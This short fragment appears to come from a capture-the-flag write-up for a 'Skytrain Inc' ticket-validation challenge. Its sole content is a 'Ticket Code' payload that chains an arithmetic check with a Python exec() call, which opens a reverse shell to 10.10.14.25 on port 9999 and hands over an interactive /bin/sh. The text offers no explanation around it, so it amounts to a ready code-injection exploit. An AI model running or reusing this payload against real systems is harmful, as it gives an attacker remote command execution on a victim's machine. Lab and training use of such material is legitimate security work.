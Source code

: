 # Skytrain Inc
## Ticket to Root
__Ticket Code:__
**32 + 100 == 132 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
